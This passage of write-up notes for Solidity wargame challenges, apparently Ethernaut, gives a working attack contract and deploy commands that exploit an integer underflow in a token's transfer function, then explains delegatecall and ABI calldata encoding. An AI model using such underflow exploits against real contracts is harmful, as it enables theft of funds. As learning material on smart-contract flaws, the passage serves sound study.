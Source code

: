 We need a `msg.sender` that is not us (the `player` address) to subtract `value` amount.
- `forge create src/AttackToken.sol:AttackToken`
- `cast send <challenge_addr> "attack()" --gas-limit 300000`
    - ie. `msg.sender` in the `transfer` function will be the attack contract we deployed


```solidity
pragma solidity 0.8.10;

interface IToken{
    function transfer(address _to, uint _value) external returns (bool);
}

contract AttackToken{  	
    address tokenAddress = 0x007E0ef5B081961Dc6D5b92fF375Dd077A7C1F33;
    IToken public tokenContract = IToken(tokenAddress);
    address sendTo = 0x9bdcf9696e273aFd83992b1Fb5672A70532ca9E1; //player address

    function attack() external {		
        tokenContract.transfer(sendTo,2**256 - 21); //sentTo has 20 already
    }
}
```
Note that the `player` starts with 20 tokens, hence sending `2**256 - 21` to it. This results in `player` address having the maximum `uint256 `balance of `2**256 - 1` tokens. Alternatively, we could've sent 21 tokens from `player` to anyone else, causing integer underlow. 

****

# Delegation

Recall that `call` in Solidity is a low level [function](https://solidity-by-example.org/call/) to interact with other contracts
- Takes encoded function signature and args as the parameter (the encoded payload `abi.encodeWithSignature(func_sig, args)` becomes `msg.data` in the contract being called) \
- For instance, `(bool success, bytes memory data) = _addr.call{value: msg.value, gas: 5000}(abi.encodeWithSignature("foo(string,uint256)", "asdf", 123));` effectively calls `foo(string,uint256)` in the `_addr` contract
    - As usual, if `foo(string,uint256)` doesn’t exist, it will trigger the fallback function in `_addr` contract
- Similarly, `delegatecall` executes code of another contract, but when contract `A` executes `delegatecall` to contract `B`, `B`'s code is executed
**with contract `A`'s storage, `msg.sender` and `msg.value`**. See here for [delegatecall example](https://solidity-by-example.org/delegatecall/).

ABI-encoding compresses function and arguments into type `bytes` which is displayed in hex.
- `cast calldata "pwn()”` = 0xdd365b8b, known as the method id (8 hex characters = 4 bytes). The reverse operation is called `cast 4byte 0xdd365b8b`  which returns function signature for the given selector `pwn()`
    - `cast calldata “baz(uint32,bool)” 69 true`
        - `0xcdcd77c0`, again 8 hex = 4 bytes
        - 69 is `0x0000000000000000000000000000000000000000000000000000000000000045`, 64 hex characters = 32 bytes
        - `true` is `0x0000000000000000000000000000000000000000000000000000000000000001`, also 64 hex
